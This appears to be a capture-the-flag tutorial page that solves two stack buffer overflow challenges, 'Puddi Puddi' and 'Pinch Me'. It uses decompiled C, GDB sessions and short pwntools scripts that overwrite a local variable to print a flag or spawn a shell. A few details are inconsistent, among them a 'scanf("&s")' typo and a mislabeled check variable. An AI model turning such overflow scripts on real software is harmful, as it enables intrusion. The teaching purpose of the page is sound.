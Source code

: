 ```yaml
---
title: Stack Buffer Overflow Practice Solutions
date: 0006-01-01T00:00:08Z
draft: false
description: nil
toc: false
---
```


Before you read the challenge solution below, you should have at least attempted the challenges in the [previous page](/pwn/stack/bof).

## WhiteHacks 2021 - Puddi Puddi

#### Overview

Decompiling the binary in Ghidra, we obtain the following decompiled code:

```c
void print_flag(void)

{
  FILE *__stream;
  size_t __nmemb;
  char *__s;
  char *flag;
  size_t data_size;
  FILE *file;

  flag = fopen("flag.txt","rb");
  if (flag == (FILE *)0x0) {
    puts("flag.txt not found!");
    exit(1);
  }

  return;
}

int main(void)

{
  int iVar1;
  char input [32];
  char size [5];

  size = 0x4147454d; // MEGA
  size[4] = '\0';

  printf("Do you like pudding? (Y/N) => ");
  scanf("&s", input);
  puts("PUDDI PUDDI!");
  sleep(1);
  puts("PUDDI PUDDI!");
  sleep(1);
  puts("SUGOKU DEKKAI...");
  sleep(1);
  iVar1 = strcmp(size,"GIGA");
  if (iVar1 != 0) {
    puts("Oops we ran out of pudding...");
    exit(1);
  }

  puts(gigabanner);

  print_flag();
  return 0;
}

```

This is a rather simple binary with a simple logic to follow:

1. It takes in an `input[32]` with `scanf("%s", input)` which does not limit the size of our input **vulnerable!!**
2. It compares `size[5] = MEGA` with `GIGA` in `strcmp(size, "GIGA")`.
3. If ``size[5] == GIGA``, it calls `print_flag()` which prints the flag.
4. If ``size[5] != GIGA``, it calls `exit(1)`, which exits the program immediately.

#### Thought Process

As you can see, `size[5] = 0x4147454d (MEGA in hex)` and `input[32]` was initialized at the start of the main function.

However, the program sets ``size[5] = MEGA``, and there is no function that allows us to modify `size[5]`.

Rightfully, we should **never** be able to write to `size[5]` and pass the check.

This is where buffer overflow comes in.

Our objective is to overflow the `input[32]` buffer to overwrite into `size[5]`.

#### Exploitation

Looking at the stack layout in Ghidra, we can easily calculate our offset.

![image](/lawofpwn/images/ghidrastackpuddi.png)

`0x38 - 0xd = 43`

Now we can craft our script:

```py
from pwn import * # import PwnTools Library

p = process('./puddi') # start process puddi
p.sendline("A"*43 + "GIGA") # send input to process
p.interactive() # manual control over process
```

If the flag successfully prints, you win!

<br><br>

## dCTF 2021 - Pinch Me

#### Overview
```c

void main(void)

{
  alarm(10);
  vuln();
  return 0;
}


void vuln(void)

{
  char input [24];
  int local_10;
  int objective;

  objective = 0x1234567;  // 0x1234567
  local_10 = -0x76543211; // 0x89abcdef

  puts("Is this a real life, or is it just a fanta sea?");
  puts("Am I dreaming?");

  fgets(input,100,stdin);
  if (local_10 == 0x1337c0de) {
    system("/bin/sh");
  }
  else {
    if (objective == 0x1234567) {
      puts("Pinch me!");
    }
    else {
      puts("Pinch me harder!");
    }
  }
  return;
}

```

Logic of this binary is simple

1. `main()` calls `vuln()`
2. `vuln()` initializes 3 variables, `input[24]`, `objective` and `local_10`.
3. `vuln()` takes in an input of size 100 with `fgets(input,100,stdin)`
4. If `objective == 0x1337c0de`, we get a shell.

#### Thought Process

So once again, we are allowed to input 100 bytes into a 24 byte variable, giving us a buffer overflow.

And our objective is to make `objective == 0x1337c0de` in order to obtain shell.

We can easily achieve this with a BOF exploit.

#### Exploitation

Instead of looking at the stack in Ghidra this time, let's do this in our debugger, GDB.

First, we open the binary with GDB

``gdb <binary>``

We can see our assembly instructions by disassembling functions

``disassemble vuln``

```asm
0x0000000000401193 <+65>:       call   0x401060 <fgets@plt>
0x0000000000401198 <+70>:       cmp    DWORD PTR [rbp-0x8],0x1337c0de
0x000000000040119f <+77>:       jne    0x4011af <vuln+93>
```

We want to break after our input at `vuln +70` with

`break *vuln+70`

After setting our breakpoint, we run the program.

``run``

We key in an input with different characters after every 4 byte.

`1111222233334444555566667777888899990000`

This is known as a de brujin sequence.

> A de Bruijn sequence with is a binary sequence of length 2k such that every consecutive sequence of 2k digits appears exactly once in the whole sequence.

After our input, we immediately hit our breakpoint, which we previously set after our input.

We can now examine what is being compared against `0x1337c0de` in the binary.

Simply do `x $rbp-0x8` since the assembly is comparing `[rbp-0x8], 0x1337c0de`.

```asm
pwndbg> x $rbp-0x8
0x7fffffffe518: 0x37373737
```

We see that `0x37373737` is being compared against `0x1337c0de`.

`0x37373737` is hex for `7777`. This means that our buffer is actually `6*4=24`.

With our offset, we can write our script.

However, you have to understand that binaries actually store `integers` in `little-endian` format.

> Little-endian is an order in which the "little end" (least significant value in the sequence) is stored first.

This means that we have to reverse the bytes of `0x1337c0de` after our 24-byte buffer.

Thankfully, PwnTools got us covered, with `p32()` and `p64()` which allows us to pack our integers into `32-bit little-endian` and `64-bit little-endian`. Respectively.

```py
p = process('./pinch_me')

p.sendline(b"A"*24 + p64(0x1337c0de))
p.interactive()
```

If you popped a shell from the binary, you win!

